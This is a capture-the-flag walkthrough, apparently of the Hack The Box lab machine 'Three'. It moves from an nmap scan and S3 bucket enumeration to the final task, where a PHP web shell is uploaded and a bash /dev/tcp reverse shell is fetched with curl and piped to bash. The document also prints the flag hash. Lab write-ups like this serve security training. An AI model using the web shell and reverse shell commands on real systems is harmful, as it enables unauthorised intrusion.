 # Three

## Initial Scan

```bash
nmap -sV -T4 -v 10.129.232.222
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-16 18:35 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 18:35
Scanning 10.129.232.222 [2 ports]
Completed Ping Scan at 18:35, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:35
Completed Parallel DNS resolution of 1 host. at 18:35, 0.08s elapsed
Initiating Connect Scan at 18:35
Scanning 10.129.232.222 [1000 ports]
Discovered open port 22/tcp on 10.129.232.222
Discovered open port 80/tcp on 10.129.232.222
Completed Connect Scan at 18:35, 0.71s elapsed (1000 total ports)
Initiating Service scan at 18:35
Scanning 2 services on 10.129.232.222
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:35 (0:00:06 remaining)
Completed Service scan at 18:35, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.232.222.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.26s elapsed
Initiating NSE at 18:35
Completed NSE at 18:35, 0.20s elapsed
Nmap scan report for 10.129.232.222
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```

## Task 1

#### How many TCP ports are open?

Found within the initial scan

Answer: 2

## Task 2

#### What is the domain of the email address provided in the "Contact" section of the website?

We see port 80 open on the target, when browsing the website of the target, going to Contact we see the email address.

<figure><img src="../../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Answer: thetoppers.htb

## Task 3

#### In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

General knowledge. Using the Host file on various systems can be used in lieu of a DNS server if they are hosted internally.

Answer: /etc/hosts

## Task 4

#### Which sub-domain is discovered during further enumeration?

After editing the host file to map the IP to the domain, we can use Gobuster to help enumerate the site.

<figure><img src="../../../../.gitbook/assets/image (102) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Answer: s3.thetoppers.htb

## Task 5

#### Which service is running on the discovered sub-domain?

Since it's s3 by amazon, also if we google: s3 subdomain

Answer: Amazon S3

## Task 6

#### Which command line utility can be used to interact with the service running on the discovered sub-domain?

Knowing it's amazon S3, what can we use to interact with it? Googling "Interact with Amazon S3" will give us our result

Answer: awscli

## Task 7

#### Which command is used to set up the AWS CLI installation?

`aws help` will give us our answer.

Answer: aws configure

## Task 8

#### What is the command used by the above utility to list all of the S3 buckets?

After configuring aws

<figure><img src="../../../../.gitbook/assets/image (108) (2).png" alt=""><figcaption></figcaption></figure>

we can look at the S3 documentation.

Answer: aws s3 ls

## Task 9

#### This server is configured to run files written in what web scripting language?

Looking at the buckets with: `aws --endpoint=http://s3.thetoppers.htb s3 ls`

<figure><img src="../../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

we can go into this further: `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

<figure><img src="../../../../.gitbook/assets/image (4) (3) (1).png" alt=""><figcaption></figcaption></figure>

With this basic info we can see this would use PHP

Answer: PHP

## Task 10

#### Submit Root Flag

So knowing it runs on PHP and with Amazons S3, we are going to work on getting a remote shell. Googling "get shell with php" I see we can use the `system()` function which takes the URL parameter `cmd` as an input and executes it as a system command.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

With the shell file created, we can use `cp` to get the file onto the server and run CMD.

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php.

We are met with: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` the output of the OS command `id`.

Now lets make a revershell script

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.119/1337 0>&1
```

<figure><img src="../../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

Going to open a netcat shell with `nc -nvlp 1337`&#x20;

<figure><img src="../../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Now open a temp webserver to pull our script from: `python3 -m http.server 8081`&#x20;

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

Now we can use curl to get our script onto the server and executing it:

http://thetoppers.htb/shell.php?cmd=curl%20%3C10.10.14.119%3E:8081/shell.sh|bash

We now can see our reverse shell:

<figure><img src="../../../../.gitbook/assets/image (2) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we can locate the flag and cat it's contents

<figure><img src="../../../../.gitbook/assets/image (106) (2).png" alt=""><figcaption></figcaption></figure>

Answer: a980d99281a28d638ac68b9bf9453c2b
